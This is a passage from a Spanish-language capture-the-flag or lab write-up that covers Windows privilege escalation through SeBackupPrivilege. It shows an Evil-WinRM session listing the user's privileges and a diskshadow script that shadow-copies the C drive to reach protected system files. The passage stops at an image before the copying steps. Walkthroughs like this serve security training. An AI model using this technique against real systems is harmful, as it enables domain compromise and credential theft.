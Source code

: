 ## Privilege Escalation

- Vamos a ver los privilegios que tenemos como usuario.

```bash
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop>
```

- Tenemos el **SeBackupPrivilege** con esto podemos realizar copias de seguridad del sistema y archivos protegidos y tenemos el **SeRestorePrivilege** con esto podemos restaurar archivos y directorios del sistema <https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/> .

- Vamos a usar el método **1**.

>We are instructing the diskshadow to create a copy of the C: Drive into a Z Drive with raj as its alias. The Drive Alias and Character can be anything you want. After creating this dsh file, we need to use the unix2dos to convert the encoding and spacing of the dsh file to the one that is compatible with the Windows Machine.

```bash
➜  content nano raj.dsh
➜  content cat raj.dsh
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
➜  content unix2dos raj.dsh
unix2dos: converting file raj.dsh to DOS format...
➜  content
```

>Back to the WinRM Session, we move to the Temp Directory and upload the raj.dsh file to the target machine. Then, we use the diskshadow with dsh script as shown in the image below. If observed, it can be noticed that diskshadow is indeed executing the same commands that we entered in the dsh file sequentially. After running, as discussed, it will create a copy of the C drive into Z drive. Now, we can use the RoboCopy tool to copy the file from the Z Drive to the Temp Directory.

- Una vez hecho esto:

<p align="center">
<img src="https://i.imgur.com/8zJh5s0.png">
</p>
